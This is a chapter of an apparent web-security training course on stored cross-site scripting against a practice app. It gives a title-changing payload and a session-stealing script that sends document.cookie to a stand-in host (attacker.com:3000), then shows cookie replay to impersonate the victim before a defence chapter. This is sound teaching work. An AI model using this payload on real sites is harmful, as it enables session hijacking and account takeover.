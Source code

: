 XSS 1 - Session jacking!
------------------------

![image](img/Axe.png)


In this chapter we are going to practice **Stored Cross Site Scripting** attacks (or, as it is most commonly called, Stored XSS) to steal the users' session.

To start, try to understand what the *session* is. How does the system know you are logged in? `Charles` might help you in this case.

.. 

.

### Read some stuff

Now, I recommend that you to read what [OWASP has to say about XSS](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29).

Did you read it? so fast? no no no, click on the link and educate yourself!

.. 

### XSS attack breakdown

1. **The attacker** send a message with a malicious script in it.
2. The script is stored in the database.
2. As **the victim** reads the message, they are printed from the database to the browser and the scripts executes.
3. The script sends **the victim's** cookies to **the attacker's** machine.
4. **The attacker** uses the cookie to log into the system posing as **the victim**.

### Hack some stuff

If you haven't yet created a user, i suggest you register **NOW**!

Cool, now for the fun stuff, you are going to use your newly acquired knowledge to post a malicious message on Gibson's wall. 

Due to the fact that the messages' content is not sanitised, you will be able to inject scripts into it!

For example, post this message: 

```
This message changes the tab's title! <script>document.title="hacked!";</script>
```
Check out how the window's title has changed to "hacked!".. ! (omg omg!)

### Grab the session

For our next trick we are going to steal the users session cookie!

Take a look at the following code:

```
Just a normal message, nothing to see here! <script>$.get("http://www.attacker.com:3000/?"+document.cookie)</script>
```

See the script in the end if the line? This will send the victim's session (stored in document.cookie) to the `serve` application that is running on the attacker's machine.

If you did it right, in the `serve` screen you should end up with something like this:

![image](img/serve_got_cookie.png)

Us the `Cookie Editor` in your chrome, to change the session id to the victim's session you just captured and refresh the page.

You can consider yourself successful once you've posted a message in the victim's name.

- - - 
#### One you've managed to post a message through the victim's account:
[Move on to play defence!](03-XSS1-defence.md)
